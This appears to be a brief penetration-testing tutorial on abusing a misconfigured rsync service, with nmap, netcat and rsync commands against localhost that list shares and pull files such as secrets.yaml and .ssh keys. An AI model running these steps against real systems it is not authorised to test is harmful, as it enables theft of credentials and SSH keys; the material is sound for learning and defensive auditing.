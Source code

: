 # Rsync

**Rsync** is a powerful tool for fast and efficient file transfers, both **locally** and **remotely**. It reduces bandwidth usage by only transferring **differences** between files instead of the entire file.

#### **1. Scanning for Rsync Service**

We can use **nmap** to check if Rsync is running on **port 873:**

```bash
sudo nmap -sV -p 873 127.0.0.1
```

If Rsync is running, it will show:

```bash
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

#### **2. Listing Shared Directories**

Using **Netcat**, we can check what directories are available:

```bash
nc -nv 127.0.0.1 873
```

Output:

```bash
@RSYNCD: 31.0
#list
dev            	Dev Tools
@RSYNCD: EXIT
```

This shows that the **"dev"** share is accessible.

#### **3. Enumerating Files**

We can list files inside "dev":

```bash
rsync -av --list-only rsync://127.0.0.1/dev
```

Potential sensitive files:

* **secrets.yaml** → Might contain passwords or API keys.
* **.ssh/** → Could contain SSH keys for remote access.

#### **4. Downloading Files**

To retrieve all files:

```bash
rsync -av rsync://127.0.0.1/dev .
```

If Rsync is running over SSH:

```bash
rsync -av -e ssh rsync://127.0.0.1/dev .
```

For a non-standard SSH port (e.g., **2222**):

```bash
rsync -av -e "ssh -p2222" rsync://127.0.0.1/dev .
```

By leveraging Rsync misconfigurations, an attacker could retrieve sensitive files and potentially gain access to the target system.
